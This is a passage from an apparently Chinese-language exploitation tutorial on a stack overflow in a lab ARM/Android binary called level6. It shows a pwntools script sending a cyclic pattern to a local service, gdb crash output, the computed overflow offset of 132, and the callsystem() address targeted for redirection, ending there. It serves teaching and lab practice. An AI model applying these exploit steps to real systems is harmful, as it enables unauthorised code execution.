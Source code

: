和之前的x86一样，我们先用pattern.py来确定溢出点的位置。我们用命令：    

`python pattern.py create 150 `
来生成一串测试用的150个字节的字符串：  
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```
然后我们写一个py脚本来发送这串数据。  
``` python
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

raw_input()

payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9"

p.send(payload)

p.interactive()
```
但因为我们需要获取崩溃时pc的值，所以在发送数据前，我们先使用gdb加载上level6。  

我们先在电脑上运行python脚本：  
```
[pc]$ python test.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
…
```
然后在adb shell中用ps获取level6的pid，然后再挂载level6，然后用c继续：  
```
[adb]# ./gdb --pid=4895

GNU gdb 6.7
Copyright (C) 2007 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
……
Loaded symbols for /system/lib/libm.so
0xb6eff268 in read () from /system/lib/libc.so
(gdb) c
Continuing.
```
然后我们再在电脑上输入回车，让脚本发送数据。然后我们就能够在gdb里看到崩溃的pc的值了：  
```
Program received signal SIGSEGV, Segmentation fault.
0x41346540 in ?? ()
(gdb) 
```
因为我们编译的level6默认是thumb模式，所以我们要在这个崩溃的地址上加个1：0x41346540+1 = 0x41346541。然后用pattern.py计算一下溢出点的位置：  
```
$ python pattern.py offset 0x41346541
hex pattern decoded as: Ae4A
132
```
OK，我们知道了溢出点的位置，接下来我们找一下返回的地址。其实利用的代码在程序中已经有了。我们只要将pc指向callsystem()这个函数地址即可。我们在ida中可以看到地址为0x00008554：  
